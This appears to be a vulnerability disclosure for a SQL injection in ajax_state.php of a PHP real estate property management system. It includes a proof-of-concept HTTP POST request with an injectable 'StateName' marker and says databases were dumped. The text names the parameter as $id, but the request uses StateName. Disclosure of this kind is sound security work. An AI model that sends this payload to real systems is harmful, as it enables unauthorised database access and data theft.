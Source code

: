 # Real Estate Property Management System has sql injection vulnerability in ajax_state.php

## supplier 
https://code-projects.org/real-estate-property-management-system-php-source-code/
## Vulnerability file
$id parameter in ajax_state.php

## describe

An unrestricted SQL injection attack exists in an Real Estate Property Management System. The parameters that can be controlled are as follows: $id. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   id parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/89f710a7-515b-4768-ac51-ced15b68b570)

## POC

```
POST /ajax_state.php HTTP/1.1
Host: property
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://property
Connection: close
Referer: http://property/ajax_city.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

StateName=2*
```

**Result**

get databases 

![Image](https://github.com/user-attachments/assets/8dfe7598-3065-44c6-b08d-2e7dad0f8198)
![Image](https://github.com/user-attachments/assets/9fac5d1e-8436-4270-8458-5ec9a895129e)
